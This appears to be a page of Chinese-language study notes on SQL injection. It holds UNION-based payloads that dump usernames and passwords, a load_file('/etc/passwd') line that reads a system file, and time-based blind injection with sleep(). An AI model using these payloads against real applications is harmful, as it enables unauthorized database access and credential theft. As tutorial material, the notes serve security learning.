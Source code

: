 - 从原始查询返回了多少列？
- 从原始查询返回的哪些列具有合适的数据类型来保存注入查询的结果？



```
'union select load_file('/etc/passwd'),2 --  查看文件
```

```
1' union select 1,table_name from information_schema.tables where table_schema=database() #
查看所有表名
```

order字句查询列数

```
1' order by 1#
1' order by 2#
1' order by 3#
1' order by 4#
```

- 使用`NULL`作为注入`SELECT`查询返回值的原因是每列中的数据类型必须在原始查询和注入查询之间兼容。由于`NULL`可转换为每种常用数据类型，因此`NULL`在列数正确时使用可以最大限度地提高有效负载成功的机会。
- 在 Oracle 上，每个`SELECT`查询都必须使用`FROM`关键字并指定一个有效的表。Oracle 上有一个内置表`dual`，可用于此目的。所以注入的查询甲骨文将需要看起来像：`' UNION SELECT NULL FROM DUAL--`。
- 所描述的有效负载使用双破折号注释序列`--`来注释掉注入点之后的原始查询的其余部分。在 MySQL 上，双破折号序列后必须跟一个空格。或者，`#`可以使用散列字符来标识评论。

## 在单列中检索多个值

在前面的示例中，假设查询仅返回单个列。

通过将值连接在一起，您可以轻松地在此单列中检索多个值，最好包括一个合适的分隔符来区分组合值。例如，在 Oracle 上，您可以提交输入：

```
' UNION SELECT username || '~' || password FROM users--
```

这使用双管道序列`||`，它是 Oracle 上的字符串连接运算符。注入的查询将`username`和`password`字段的值连接在一起，由`~`字符分隔。

MySQL可以用

```
CONCAT(username,'-->',password)
```



## 延时注入

```
1' and sleep(6) #
1' and if(length(database())>0,sleep(9),1) #   转圈圈
1' and if(length(database())>3,sleep(9),1) #   转圈圈
1' and if(length(database())>4,sleep(9),1) #   不转圈圈
```

id是 1' and if(length(database())>0,sleep(9),1) # 明显延迟，说明数据库名的长度为4个字符;
